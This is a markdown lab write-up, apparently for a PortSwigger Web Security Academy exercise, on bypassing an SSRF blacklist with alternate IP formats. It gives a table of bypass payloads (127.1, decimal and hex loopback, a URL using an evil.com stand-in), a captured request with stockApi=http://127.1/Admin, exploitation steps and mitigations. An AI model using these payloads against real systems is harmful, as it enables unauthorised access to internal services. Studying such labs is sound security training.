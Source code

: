 # 📘 Scenario 4: SSRF – Bypass Blacklist Filters via Alternate IP Formats

## 🔎 Vulnerability Description

In this scenario, the application attempts to prevent SSRF by blocking specific blacklisted values such as `localhost` or `127.0.0.1`. However, the filter is **poorly implemented** and fails to account for alternate representations of the same internal address (e.g., `127.1`, `LOCALHOST`, mixed casing), allowing the attacker to **bypass the blacklist** and perform SSRF.

> **Vulnerability Type:** Input Validation (Bypass), SSRF  
> **OWASP Top 10 ID:** A10:2021 – Server-Side Request Forgery  
> **Risk Level:** Medium  

---

## 🧠 Common Bypass Techniques

| Target Address | Bypass Variant |
|----------------|----------------|
| `127.0.0.1`     | `127.1`, `2130706433`, `0x7f000001` |
| `localhost`     | `LOCALHOST`, `LocAlHost`, `localhost%00` |
| Normal URL      | `http://127.1`, `http://127.0.0.1#@evil.com`, `http://127.0.0.1%2F..` |

---

## 🔧 Target

**URL:**


🔗 https://0acc009b035c39e98104173b00d7001f.web-security-academy.net/product/stock

---

## 📥 HTTP Request

```http
POST /product/stock HTTP/2
Host: 0acc009b035c39e98104173b00d7001f.web-security-academy.net
Cookie: session=Hgh3EncJZrjrEzW3M66PsxoGnQQPNILJ
Content-Length: 27
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0acc009b035c39e98104173b00d7001f.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0acc009b035c39e98104173b00d7001f.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
 
stockApi=http://127.1/Admin

```
---
## 📥 Server Response
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=5F1GuvvECrftQt3ks3539gTzkjlIXUY0; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3074

```
---

## 🧪 Exploitation Steps

Send a request with the stockAPI parameter targeting an internal address.

Attempt variants such as:

`http://127.1/admin`

`http://LOCALHOST/admin`

`http://127.0.0.1#@external.com/`

Use Burp Suite Repeater to compare filtered vs bypassed results.

Observe any different responses that suggest successful SSRF.

## 💥 Potential Impact

- Blacklist filtering gives a **false sense of security**.

- Attacker can still access internal services by using alternate encoding.

- Allows data exposure or further pivoting (e.g., metadata service access).   

- **Precursor to RCE or lateral movement**.

## ✅ Mitigation Suggestions
- Do **not rely** on blacklist filtering alone.

- Use strict **allowlists** with resolved IP address checks.

- Normalize and canonicalize input before filtering.

- Block loopback and private IP ranges via server configuration, not only in code.

## 📸 Screenshot

![Exploitation Image Of Scenario 4](https://github.com/hovikhanh/ssrf-demo/images/Picture4.png "Exploitation Image Of Scenario 4")

## 🔗 References

[PayloadsAllTheThings – SSRF Bypass Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md)

[OWASP SSRF Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

> 🚨 This scenario highlights that SSRF protection using basic pattern matching is insufficient. Always verify resolved IPs and use robust filtering mechanisms.